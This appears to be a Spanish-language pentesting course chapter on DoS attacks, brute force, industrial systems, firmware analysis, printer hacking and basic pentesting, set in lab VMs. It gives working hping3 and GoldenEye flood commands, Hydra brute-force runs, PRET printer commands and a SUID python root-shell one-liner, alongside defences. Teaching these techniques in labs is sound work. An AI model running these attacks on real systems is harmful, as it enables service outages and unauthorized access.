### ✅ RESUMEN

| Punto clave     | Detalles                                       |
| --------------- | ---------------------------------------------- |
| ❓ ¿Qué es?     | Ataque que busca hacer un sistema inaccesible  |
| 🧨 Tipos        | Flooding, Slowloris, Amplification, App Layer  |
| ⚠️ Legalidad    | Solo permitido en entornos de laboratorio      |
| 🧪 Herramientas | hping3, LOIC, Slowloris, GoldenEye, Metasploit |
| 🔐 Prevención   | Firewalls, IDS/IPS, límites de tráfico, WAFs   |

---

[🔼](#índice)

---

## **973. Ataques DOS**

### 🧠 ¿Qué es un Ataque DoS?

**DoS** significa **Denial of Service** o **Denegación de Servicio**.
Se trata de un ataque cibernético que **intenta hacer que un sistema, sitio web, servidor o red quede inaccesible** para los usuarios legítimos.

---

### 🔧 ¿Cómo lo hace?

Saturando el objetivo con:

- **Tantas peticiones** que no puede responder.
- **Solicitudes maliciosas** que consumen sus recursos (CPU, RAM, disco, ancho de banda).

---

### 🎯 Ejemplo simple de la vida real:

> Imagina que solo hay **una ventanilla en un banco**, y **1000 personas falsas** se forman a pedir información inútil, entonces tú (usuario real) **no puedes ser atendido**.

---

### ⚠️ IMPORTANTE: Legalidad

Los ataques DoS son **ilegales si los haces contra servicios que no son tuyos** o sin autorización.

✅ Solo puedes hacerlos en:

- Laboratorios virtuales (como TryHackMe, HackTheBox).
- Máquinas locales propias (con VirtualBox, VMware).
- Sistemas que te han dado permiso para probar.

---

### 🧨 TIPOS DE ATAQUES DoS

#### 1. **ICMP Flood (Ping Flood)**

Envía miles de pings (mensajes tipo "¿estás ahí?") al objetivo para saturarlo.

#### 2. **UDP Flood**

Envía mensajes UDP a muchos puertos del sistema, obligando a responder con errores.

#### 3. **SYN Flood**

Envía muchas solicitudes de conexión TCP (pero no las completa), ocupando la cola de conexiones.

#### 4. **Slowloris**

Abre muchas conexiones al servidor web y **envía datos muy lentamente**, bloqueando otros usuarios.

#### 5. **HTTP Flood**

Envío masivo de peticiones HTTP (GET/POST) a páginas web para saturarlas.

#### 6. **Amplification (amplificación)**

Envía solicitudes pequeñas a servidores mal configurados (como DNS o NTP), que **responden con mensajes muy grandes** al objetivo, **saturándolo con poco esfuerzo**.

---

### 🔧 HERRAMIENTAS PARA HACER PRUEBAS DoS (en entorno controlado)

| Herramienta  | Tipo de ataque que permite       |
| ------------ | -------------------------------- |
| `hping3`     | TCP/UDP/ICMP Flood               |
| `LOIC`       | HTTP/UDP/TCP Flood con GUI       |
| `Slowloris`  | Ataques lentos a servidores HTTP |
| `GoldenEye`  | HTTP Floods                      |
| `Metasploit` | Módulos de pruebas DoS           |
| `nmap + NSE` | Pruebas de detección de DoS      |

---

### ✅ INSTALACIÓN DE HERRAMIENTAS

#### 🔹 En Kali Linux (o Ubuntu):

##### Instalar hping3:

```bash
sudo apt update
sudo apt install hping3
```

##### Instalar Slowloris:

```bash
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py <IP>
```

##### Instalar GoldenEye:

```bash
git clone https://github.com/jseidl/GoldenEye.git
cd GoldenEye
python3 goldeneye.py <URL>
```

> Nota: Puedes instalar `git` y `python3` si no los tienes:

```bash
sudo apt install git python3
```

---

### 🧪 EJEMPLO COMPLETO: Ataque DoS ICMP Flood con `hping3`

#### ⚠️ Solo en laboratorio, por ejemplo, contra una máquina virtual **Metasploitable2**

#### 1. Verifica IP de la víctima:

En la terminal:

```bash
ping 192.168.56.103
```

#### 2. Ejecuta el ataque ICMP Flood:

```bash
sudo hping3 --icmp -d 120 -C 8 -i u1000 192.168.56.103
```

##### ¿Qué hace este comando?

- `--icmp`: usa protocolo ICMP (como ping)
- `-d 120`: tamaño del paquete en bytes
- `-C 8`: código del mensaje ICMP
- `-i u1000`: intervalo de envío (cada 1000 microsegundos = 1 ms)
- `192.168.56.103`: IP del objetivo

🔍 Resultado: La víctima tendrá un alto uso de red y podría volverse inestable o no responder.

---

### 🧪 OTRO EJEMPLO: HTTP Flood con GoldenEye

```bash
cd GoldenEye
python3 goldeneye.py http://192.168.56.103 -w 10 -s 200
```

- `-w 10`: número de hilos
- `-s 200`: número de sockets abiertos por hilo

---

### 🧰 MITIGACIÓN (DEFENSA CONTRA DoS)

| Medida                         | Qué hace                                   |
| ------------------------------ | ------------------------------------------ |
| **Firewall/iptables**          | Bloquea tráfico sospechoso                 |
| **Fail2Ban**                   | Bloquea IPs con demasiados intentos        |
| **CDN como Cloudflare**        | Filtra tráfico antes de llegar al servidor |
| **Rate limiting**              | Limita número de peticiones por IP         |
| **Configuración del servidor** | Ajustar límites de conexiones y timeouts   |

---

### ✅ RESUMEN

| Elemento      | Descripción                                         |
| ------------- | --------------------------------------------------- |
| ¿Qué es DoS?  | Ataque que deja un servicio o sistema inaccesible   |
| Tipos comunes | Floods, Slowloris, Amplification, HTTP Floods       |
| Herramientas  | hping3, Slowloris, GoldenEye, LOIC, Metasploit      |
| Legalidad     | Solo en entornos controlados o con permiso          |
| Ejemplo       | hping3 haciendo un ping flood a una máquina virtual |
| Defensa       | Firewalls, IDS/IPS, límites, protección de red      |

---

[🔼](#índice)

---

## **974. Fuerza bruta**

### 🧠 ¿Qué es un Ataque de Fuerza Bruta?

Un ataque de **fuerza bruta** es una técnica utilizada para **descubrir contraseñas o claves probando todas las combinaciones posibles** hasta encontrar la correcta.

---

### 🎯 ¿Cómo Funciona?

> Supongamos que una contraseña es de 3 letras:
>
> El atacante prueba:
>
> aaa, aab, aac, aad... hasta zzz
>
> → eventualmente encontrará la correcta: por ejemplo, **“bdf”**

Este tipo de ataque puede tomar mucho tiempo, especialmente si:

- La contraseña es larga.
- Se usan caracteres especiales.
- El sistema implementa defensas como bloqueo tras intentos fallidos.

---

### 📦 Tipos de Ataques de Fuerza Bruta

| Tipo            | Explicación                                                           |
| --------------- | --------------------------------------------------------------------- |
| **Puro**        | Prueba todas las combinaciones posibles de caracteres.                |
| **Diccionario** | Usa una lista de palabras comunes como contraseñas.                   |
| **Híbrido**     | Usa palabras del diccionario y les agrega números o símbolos.         |
| **Inteligente** | Usa patrones basados en información personal (nombres, fechas, etc.). |

---

### ⚠️ ¿Es Legal?

🔴 **NO** debes usar ataques de fuerza bruta en servicios que **no son tuyos** o sin autorización.

✅ Solo hazlo en entornos como:

- Tu propia máquina virtual (como Metasploitable)
- Plataformas de laboratorio (TryHackMe, HackTheBox)

---

### 🔧 Herramientas populares para fuerza bruta

| Herramienta         | Qué puede hacer                                         |
| ------------------- | ------------------------------------------------------- |
| **Hydra**           | Ataques contra SSH, FTP, HTTP, Telnet, etc.             |
| **Medusa**          | Similar a Hydra, pero más rápida en algunos protocolos. |
| **Burp Suite**      | Para fuerza bruta en formularios web.                   |
| **John the Ripper** | Romper hashes (no servicios).                           |
| **Crunch**          | Generador de contraseñas personalizadas.                |

---

### ✅ Cómo instalar **Hydra**

Hydra es una de las herramientas más usadas. Se llama también **`THC-Hydra`**.

#### 🔹 En Kali Linux o Ubuntu:

```bash
sudo apt update
sudo apt install hydra
```

#### 🔹 Verifica la instalación:

```bash
hydra -h
```

---

### 🧪 EJEMPLO COMPLETO: Ataque de fuerza bruta FTP con Hydra

#### 🧑‍💻 Escenario:

Tienes una máquina virtual vulnerable (por ejemplo, **Metasploitable2**) y quieres hacer un ataque de fuerza bruta al servicio FTP (puerto 21).

#### Paso 1: Verifica si el servicio está disponible

```bash
nmap -p 21 192.168.56.103
```

#### Paso 2: Prepara tu diccionario

Crea un archivo con posibles contraseñas (por ejemplo: `pass.txt`)

```bash
echo -e "1234\nadmin\nroot\ntoor" > pass.txt
```

#### Paso 3: Ejecuta Hydra

```bash
hydra -l msfadmin -P pass.txt ftp://192.168.56.103
```

- `-l msfadmin`: usuario a probar
- `-P pass.txt`: lista de contraseñas
- `ftp://192.168.56.103`: protocolo y IP del objetivo

#### Resultado Esperado:

Hydra te mostrará algo como:

```
[21][ftp] host: 192.168.56.103   login: msfadmin   password: msfadmin
```

¡Contraseña encontrada! 🚀

---

### 🛡️ Cómo defenderse contra fuerza bruta

| Defensa                                         | Qué hace                                            |
| ----------------------------------------------- | --------------------------------------------------- |
| **Bloqueo de IP** tras varios intentos fallidos | Previene más pruebas desde una IP                   |
| **Autenticación multifactor (MFA)**             | Incluso si adivinan la contraseña, no pueden entrar |
| **Límites de intento por segundo**              | Ralentiza el ataque                                 |
| **CAPTCHAs**                                    | Detiene bots que prueban contraseñas                |

---

### ✅ RESUMEN RÁPIDO

| Elemento     | Detalle                                           |
| ------------ | ------------------------------------------------- |
| ¿Qué es?     | Prueba combinaciones de contraseñas hasta acertar |
| Tipos        | Puro, diccionario, híbrido, inteligente           |
| Herramientas | Hydra, Medusa, Burp, John                         |
| Legalidad    | Solo en laboratorios o con permiso                |
| Defensa      | Bloqueo, MFA, CAPTCHAs, límite de intentos        |
| Ejemplo      | Ataque FTP con Hydra y diccionario                |

---

[🔼](#índice)

---

## **975. Sistemas industriales e infraestructura crítica**

### 🏭 ¿Qué son los Sistemas Industriales?

Los **sistemas industriales** son los sistemas utilizados para **automatizar y controlar procesos físicos** en fábricas, centrales eléctricas, plantas químicas, redes de agua, petróleo, gas, entre otros.

Estos sistemas están formados por tecnologías como:

| Componente                                           | Función                                                                          |
| ---------------------------------------------------- | -------------------------------------------------------------------------------- |
| **SCADA** (Supervisory Control and Data Acquisition) | Supervisa y controla procesos industriales a distancia.                          |
| **PLC** (Programmable Logic Controller)              | Controlador que ejecuta instrucciones de forma repetitiva para operar máquinas.  |
| **RTU** (Remote Terminal Unit)                       | Dispositivo que recopila datos y los envía a SCADA.                              |
| **HMI** (Human Machine Interface)                    | Pantalla que permite al operador ver el estado del sistema y controlar máquinas. |

---

### 🛡️ ¿Qué es Infraestructura Crítica?

La **infraestructura crítica** incluye los **servicios esenciales** para la sociedad y la economía de un país, como:

- Energía eléctrica
- Agua potable
- Transporte (aéreo, ferroviario, marítimo)
- Telecomunicaciones
- Servicios de salud
- Finanzas
- Defensa

🔒 **Cualquier falla o ataque a estos sistemas puede generar caos, pérdidas económicas y hasta muertes**. Por eso, protegerlos es una prioridad de seguridad nacional.

---

### 🔗 Relación entre Sistemas Industriales e Infraestructura Crítica

Muchos sistemas industriales están **dentro de infraestructuras críticas**.
Ejemplo:

- Una planta eléctrica (infraestructura crítica) usa **SCADA + PLC** para automatizar su operación.

---

### 💥 ¿Por qué son un objetivo en ciberseguridad?

1. Muchos **fueron diseñados sin seguridad** (pensando que estarían aislados).
2. Hoy en día **están conectados a redes corporativas o Internet**.
3. Son **vulnerables a malware y ataques** como:

   - Ransomware
   - Accesos no autorizados
   - Manipulación de procesos
   - Ataques a protocolos como **Modbus**, **DNP3**, **OPC**, etc.

---

### 🛠️ ¿Cómo se simula esto para aprender?

Puedes **crear un laboratorio de prueba** con herramientas y entornos virtuales para aprender sin dañar nada real.

---

### 📦 Herramientas para analizar seguridad en sistemas industriales

| Herramienta              | Uso                                                  |
| ------------------------ | ---------------------------------------------------- |
| **Wireshark**            | Captura de tráfico de protocolos industriales        |
| **ModScan**              | Escaneo de dispositivos Modbus TCP                   |
| **Shodan**               | Busca dispositivos industriales expuestos a internet |
| **Metasploit Framework** | Exploits para SCADA/PLC vulnerables                  |
| **Conpot**               | Honeypot que simula un entorno industrial vulnerable |

---

### ✅ Cómo instalar **Conpot** (simulador de sistema industrial)

Conpot te permite **crear un entorno vulnerable de SCADA** para aprender.

#### 🔹 En Kali Linux o Ubuntu:

1. Actualiza tu sistema:

```bash
sudo apt update && sudo apt upgrade -y
```

2. Instala Conpot (requiere Python):

```bash
sudo apt install conpot
```

3. Ejecuta Conpot:

```bash
sudo conpot
```

Verás que está corriendo en puertos como 102, 502, 8080, 161 (simula un SCADA real).

---

### 🧪 Ejemplo completo práctico

#### 🎯 Escenario:

Simulas un sistema SCADA vulnerable con Conpot, y haces un escaneo con **Nmap** y un análisis con **Wireshark**.

#### Paso 1: Ejecuta Conpot en tu máquina (como se vio arriba)

#### Paso 2: Desde otra terminal, escanea el sistema con Nmap:

```bash
nmap -sV -p 1-1024 127.0.0.1
```

📋 Resultado esperado:

```
PORT    STATE SERVICE     VERSION
102/tcp open  iso-tsap    Siemens S7 PLC
502/tcp open  modbus      Schneider Electric Modicon PLC
8080/tcp open  http       SCADA web interface
```

Ya ves servicios típicos de sistemas industriales.

#### Paso 3: Analiza tráfico con Wireshark

1. Abre Wireshark
2. Escoge la interfaz de red
3. Aplica filtro:

```
modbus
```

Verás paquetes de lectura/escritura Modbus.

---

### 🛡️ Buenas prácticas de ciberseguridad en sistemas industriales

| Medida                        | Beneficio                                        |
| ----------------------------- | ------------------------------------------------ |
| Segmentar redes IT/OT         | Separar redes industriales de la red empresarial |
| Control de acceso estricto    | Sólo personal autorizado accede al sistema       |
| Monitoreo constante           | Detección temprana de anomalías o ataques        |
| Parches y actualizaciones     | Reducir vulnerabilidades                         |
| Uso de firewalls industriales | Control de tráfico entre redes                   |

---

### 🚨 Ejemplo de ataque real: **Stuxnet**

- Malware descubierto en 2010
- Atacó plantas nucleares iraníes
- Infectó PLCs Siemens para modificar su comportamiento
- Primera ciberarma conocida contra infraestructura crítica

---

### 📚 Recomendaciones para aprender más

1. Plataformas:

   - [TryHackMe: ICS Room](https://tryhackme.com)
   - [RangeForce Industrial Control Systems Labs](https://www.rangeforce.com)

2. Libros:

   - _Industrial Network Security_ - Eric Knapp
   - _Cybersecurity for Industrial Control Systems_ - Tyson Macaulay

---

### ✅ RESUMEN

| Concepto                | Detalle                                  |
| ----------------------- | ---------------------------------------- |
| Sistemas Industriales   | Automatizan fábricas, plantas, servicios |
| Infraestructura Crítica | Servicios vitales para la sociedad       |
| Riesgos                 | Malware, acceso remoto, ransomware       |
| Herramientas            | Conpot, Nmap, Wireshark, Shodan          |
| Defensa                 | Segmentación, monitoreo, firewalls OT    |
| Práctica                | Simular SCADA con Conpot y escanearlo    |

---

[🔼](#índice)

---

## **976. Analysis de Firmware**

### 🧠 ¿Qué es el Firmware?

El **firmware** es el software embebido que controla dispositivos electrónicos como:

- Routers
- Cámaras IP
- Smart TVs
- Impresoras
- Dispositivos IoT (Internet of Things)

🔧 El firmware está instalado directamente en la memoria del dispositivo (no en un disco duro como un sistema operativo de PC). Es lo que permite que el hardware funcione correctamente.

---

### 🎯 ¿Qué es el Análisis de Firmware?

El **análisis de firmware** es el proceso de examinar el contenido de un archivo de firmware para:

- Entender cómo funciona el dispositivo
- Buscar **vulnerabilidades** (como contraseñas por defecto, puertas traseras, etc.)
- Identificar componentes del sistema (kernel, archivos de configuración, binarios)
- Ver si tiene servicios expuestos (por ejemplo, Telnet, SSH, HTTP, etc.)

🛡️ Es muy importante en **ciberseguridad ofensiva y defensiva**, especialmente para auditar dispositivos IoT y sistemas embebidos.

---

### 🧰 Herramientas más usadas en análisis de firmware

| Herramienta                         | Función Principal                            |
| ----------------------------------- | -------------------------------------------- |
| **binwalk**                         | Extraer y analizar firmwares                 |
| **Firmware-Mod-Kit**                | Modificar firmwares                          |
| **QEMU**                            | Emular arquitecturas ARM/MIPS                |
| **Firmware Analysis Toolkit (FAT)** | Framework para automatizar análisis          |
| **Ghidra**                          | Ingeniería inversa de binarios               |
| **Strings** / **hexdump**           | Búsqueda de texto oculto y datos en binarios |

---

### 🖥️ ¿Cómo se instala el entorno?

A continuación te muestro la forma más sencilla de empezar en **Kali Linux o Ubuntu**.

#### 📦 Paso 1: Instalar binwalk (herramienta base)

```bash
sudo apt update && sudo apt install binwalk -y
```

#### 📦 Paso 2: Instalar herramientas adicionales

```bash
sudo apt install firmware-mod-kit qemu-user-static unzip -y
```

#### 📦 Paso 3 (opcional): Instalar Ghidra (ingeniería inversa)

Descarga desde:
👉 [https://ghidra-sre.org/](https://ghidra-sre.org/)

Descomprime y ejecuta:

```bash
./ghidraRun
```

---

### 🧪 Ejemplo completo de análisis de firmware

#### 🎯 Escenario:

Has descargado el firmware de un router TP-Link, y quieres saber si tiene contraseñas por defecto o servicios abiertos.

#### 📥 Paso 1: Descargar firmware

Ve al sitio oficial de TP-Link, D-Link u otro fabricante. También puedes buscar en [https://firmware.netgear.com](https://firmware.netgear.com)

Para este ejemplo, imagina que tienes el archivo:

```
TL-WR841N_V11_160325.bin
```

Guárdalo en una carpeta de tu sistema.

---

#### 🔍 Paso 2: Analizar con binwalk

```bash
binwalk TL-WR841N_V11_160325.bin
```

🔎 Esto muestra las secciones internas del firmware, por ejemplo:

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
96            0x60            uImage header
264           0x108           LZMA compressed data
```

---

#### 🧩 Paso 3: Extraer el firmware

```bash
binwalk -e TL-WR841N_V11_160325.bin
```

Esto crea una carpeta:

```
_TL-WR841N_V11_160325.bin.extracted/
```

Allí estarán los archivos internos del firmware.

---

#### 🔍 Paso 4: Explorar el sistema de archivos extraído

```bash
cd _TL-WR841N_V11_160325.bin.extracted/
ls
```

Podrás ver carpetas como `etc`, `bin`, `usr`, `www`, etc.

Busca archivos interesantes como:

```bash
cat etc/passwd
cat etc/shadow
cat etc/config/httpd
```

O busca cadenas con contraseñas:

```bash
grep -ri "admin" .
```

---

#### 🛠️ Paso 5: Analiza binarios con `strings` o `Ghidra`

Ejemplo con `strings`:

```bash
strings bin/httpd | grep password
```

Esto busca cadenas de texto relacionadas con contraseñas en el servidor web del router.

---

#### 🧠 (Opcional) Emular el firmware con QEMU

Si quieres levantar el firmware en una máquina virtual, debes usar `FAT` (Firmware Analysis Toolkit) o `Firmadyne`, pero eso es más avanzado. Te lo puedo explicar en otro paso si te interesa.

---

### ⚠️ Advertencia ética

Este tipo de análisis **debe hacerse siempre con fines educativos, de investigación o pruebas de seguridad con consentimiento**. Nunca lo hagas con dispositivos o firmware de terceros sin autorización.

---

### ✅ RESUMEN RÁPIDO

| Paso | Acción                                           |
| ---- | ------------------------------------------------ |
| 1    | Instalar binwalk y herramientas extra            |
| 2    | Descargar firmware desde fabricante              |
| 3    | Usar binwalk para ver y extraer                  |
| 4    | Explorar archivos (`passwd`, `shadow`, `config`) |
| 5    | Buscar vulnerabilidades o credenciales embebidas |

---

[🔼](#índice)

---

## **977. Hacking de impresoras**

### 🧠 ¿Qué es el Hacking de Impresoras?

El **hacking de impresoras** es la práctica de explotar vulnerabilidades o configuraciones débiles en impresoras de red para:

🔸 Obtener acceso no autorizado
🔸 Filtrar documentos confidenciales
🔸 Ejecutar comandos en el sistema (si la impresora lo permite)
🔸 Usarlas como pivote para entrar a la red interna
🔸 Realizar ataques de denegación de servicio (DoS)

---

### 🖨️ ¿Por qué son vulnerables las impresoras?

Muchas impresoras empresariales y de oficina tienen:

| Problema                       | Descripción                         |
| ------------------------------ | ----------------------------------- |
| **Credenciales por defecto**   | Usuario/clave: admin/admin o vacíos |
| **Servicios abiertos**         | Telnet, FTP, SNMP, HTTP, LPD        |
| **Falta de actualizaciones**   | Firmware desactualizado             |
| **SNMP mal configurado**       | Expone configuración interna        |
| **Interfaces web sin cifrado** | Admin accesible por HTTP            |

---

### 🔧 Servicios comunes que exponen a las impresoras

| Servicio                  | Uso                                 |
| ------------------------- | ----------------------------------- |
| **Port 9100 (JetDirect)** | Envío de datos crudos para imprimir |
| **Port 515 (LPD)**        | Protocolo Line Printer Daemon       |
| **Port 631 (IPP)**        | Internet Printing Protocol          |
| **Port 80/443**           | Panel web de administración         |
| **Port 161 (SNMP)**       | Lectura/escritura de configuración  |

---

### 🔎 Herramientas útiles para hacking de impresoras

| Herramienta    | Función                                        |
| -------------- | ---------------------------------------------- |
| **Nmap**       | Descubrir servicios abiertos                   |
| **Metasploit** | Módulos de explotación SNMP, JetDirect, LPD    |
| **PRET**       | Printer Exploitation Toolkit (hacking directo) |
| **snmpwalk**   | Leer información con SNMP                      |
| **Hydra**      | Ataques de fuerza bruta en paneles web         |
| **Netcat**     | Enviar comandos crudos a puerto 9100           |

---

### 🛠️ ¿Cómo se instala el entorno?

Usaremos Kali Linux para esto.

#### Paso 1: Instalar PRET (Printer Exploitation Toolkit)

```bash
sudo apt update
sudo apt install git python3 python3-pip -y
git clone https://github.com/RUB-NDS/PRET.git
cd PRET
pip3 install -r requirements.txt
```

---

### ✅ EJEMPLO COMPLETO: HACKING DE IMPRESORA CON PRET

#### 🖥️ Escenario:

Estás en una red interna y encuentras una impresora en la IP `192.168.1.100`. El puerto 9100 está abierto.

---

#### 🔎 Paso 1: Detectar la impresora con Nmap

```bash
nmap -p 9100,80,443,161,515 192.168.1.100
```

Salida esperada:

```
PORT     STATE SERVICE
80/tcp   open  http
161/udp  open  snmp
9100/tcp open  jetdirect
```

---

#### 🧰 Paso 2: Conectar con PRET

```bash
cd PRET
python3 pret.py 192.168.1.100 -p 9100
```

Esto te da acceso a una **interfaz interactiva**, tipo shell, para enviar comandos a la impresora.

---

#### 🕵️ Paso 3: Comandos útiles en PRET

Una vez dentro del shell de PRET, puedes:

```bash
list                     # Listar archivos en la impresora
cat /etc/passwd          # Ver si es un sistema Unix embebido
print test.txt           # Imprimir un archivo
exploit buffer-overflow  # Intentar un DoS
upload malware.txt       # Subir archivos (si lo permite)
```

---

#### 📚 Paso 4: Extraer información por SNMP (opcional)

```bash
snmpwalk -v 2c -c public 192.168.1.100
```

Esto devuelve información como:

- Nombre de la impresora
- Modelo, fabricante
- Contadores de páginas
- Archivos en buffer

---

#### 💥 Paso 5: Ataques posibles

| Tipo de Ataque   | Descripción                                       |
| ---------------- | ------------------------------------------------- |
| **DoS**          | Enviar miles de páginas con PRET para atascarla   |
| **Data Theft**   | Leer archivos temporales de impresión             |
| **Pivoteo**      | Si tiene Linux embebido, puede servir como puente |
| **Shell Remoto** | Algunas tienen BusyBox o intérprete embebido      |

---

### 🧱 ¿Cómo proteger impresoras?

1. Cambiar credenciales por defecto
2. Desactivar servicios innecesarios (Telnet, SNMP, FTP)
3. Restringir acceso por firewall interno
4. Usar HTTPS en panel de administración
5. Actualizar firmware regularmente
6. Monitorizar actividad en puertos 9100, 515, 161

---

### 🧠 RESUMEN FINAL

| Acción                 | Herramienta  |
| ---------------------- | ------------ |
| Escanear puertos       | Nmap         |
| Acceso interactivo     | PRET         |
| Leer config interna    | snmpwalk     |
| Fuerza bruta panel web | Hydra        |
| Enviar comandos crudos | Netcat, PRET |

---

[🔼](#índice)

---

## **978. Basic pentesting**

### 🔐 ¿Qué es el Pentesting Básico?

**Pentesting básico** (o **penetration testing**) es el proceso de **simular ataques controlados** a un sistema, aplicación o red para encontrar vulnerabilidades antes que un atacante real lo haga.

---

### 🎯 Objetivo del Pentesting Básico

- Identificar servicios vulnerables
- Acceder a sistemas sin autorización
- Escalar privilegios
- Obtener acceso a archivos confidenciales
- Documentar las fallas encontradas

---

### 🛠️ HERRAMIENTAS USADAS

En un pentesting básico, se utilizan herramientas como:

| Herramienta       | Uso                                         |
| ----------------- | ------------------------------------------- |
| `Nmap`            | Escaneo de puertos y detección de servicios |
| `Hydra`           | Ataques de fuerza bruta a contraseñas       |
| `Nikto`           | Escaneo de vulnerabilidades web             |
| `Netcat`          | Conexiones a puertos y shells inversas      |
| `John the Ripper` | Descifrado de contraseñas                   |
| `Enum4linux`      | Enumeración de sistemas Windows/Samba       |
| `Metasploit`      | Explotación de servicios vulnerables        |

---

### 🧪 ENTORNO DE PRUEBA (Instalación)

Usaremos **Kali Linux** como atacante, y una máquina vulnerable llamada **Basic Pentesting: 1** (disponible en [VulnHub](https://www.vulnhub.com/)) o **TryHackMe**.

#### 🔻 Descargar la máquina vulnerable:

Desde VulnHub:

[https://www.vulnhub.com/entry/basic-pentesting-1,216/](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

La importas a VirtualBox o VMware.

✅ Asegúrate de que **Kali Linux y la VM vulnerable estén en la misma red NAT o red interna**.

---

### ✅ EJEMPLO COMPLETO DE PENTESTING BÁSICO

#### 🎯 Escenario:

- IP del atacante (Kali): `192.168.56.10`
- IP de la máquina víctima: `192.168.56.101`

---

#### 1. 🔍 Escaneo de red y puertos con Nmap

```bash
nmap -sS -sV -O 192.168.56.101
```

**Salida esperada**:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu
80/tcp   open  http        Apache 2.4.18
139/tcp  open  netbios-ssn Samba
445/tcp  open  microsoft-ds Samba
```

---

#### 2. 🌐 Navegar al puerto 80 (HTTP)

Ir a `http://192.168.56.101` en tu navegador.

> Verifica si hay formularios de login, uploads, etc.

---

#### 3. 🔐 Enumerar SMB con `enum4linux`

```bash
enum4linux -a 192.168.56.101
```

> Busca usuarios, recursos compartidos, nombres de máquina, etc.

---

#### 4. 🧪 Ataque de fuerza bruta con `Hydra`

Supongamos que encontramos un usuario llamado `john`.

```bash
hydra -l john -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.101
```

> Esto intentará adivinar la contraseña por fuerza bruta vía SSH.

---

#### 5. 🔓 Acceso por SSH

Una vez que consigas una contraseña válida:

```bash
ssh john@192.168.56.101
```

> Ahora estás **dentro del sistema como usuario bajo privilegio**.

---

#### 6. 🔝 Escalada de privilegios

Revisamos archivos sudoers, programas SUID, y permisos especiales:

```bash
sudo -l
find / -perm -4000 2>/dev/null
```

Si encuentras algo como:

```bash
/usr/bin/python2.7 (SUID)
```

Puedes escalar privilegios así:

```bash
python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

#### 7. 🏁 Bandera o archivo objetivo

Busca en:

```bash
cat /root/proof.txt
```

¡Felicitaciones! ¡Has completado un pentest básico! 🎉

---

### 📑 RESUMEN

| Fase            | Herramienta              | Comando clave                              |
| --------------- | ------------------------ | ------------------------------------------ |
| Descubrimiento  | `nmap`                   | `nmap -sS -sV -O IP`                       |
| Enumeración SMB | `enum4linux`             | `enum4linux -a IP`                         |
| Fuerza bruta    | `Hydra`                  | `hydra -l usuario -P diccionario ssh://IP` |
| Acceso          | `ssh`                    | `ssh usuario@IP`                           |
| Escalada        | `find`, `sudo`, `python` | Buscar SUIDs y privilegios                 |

---

### 📌 ¿Dónde practicar Pentesting Básico?

| Plataforma                             | Recurso                  |
| -------------------------------------- | ------------------------ |
| [TryHackMe](https://tryhackme.com)     | Room: "Basic Pentesting" |
| [Hack The Box](https://hackthebox.com) | "Lame", "Blue", "Legacy" |
| [VulnHub](https://vulnhub.com)         | "Basic Pentesting: 1"    |

---

[🔼](#índice)

---

| **Inicio**         | **atrás 16**                                      | **Siguiente 18**                                |
| ------------------ | ------------------------------------------------- | ----------------------------------------------- |
| [🏠](../README.md) | [⏪](./7_16_Hacking_Pentesting_con_Metasploit.md) | [⏩](./7_18_Hacking_Escalada_de_Privilegios.md) |
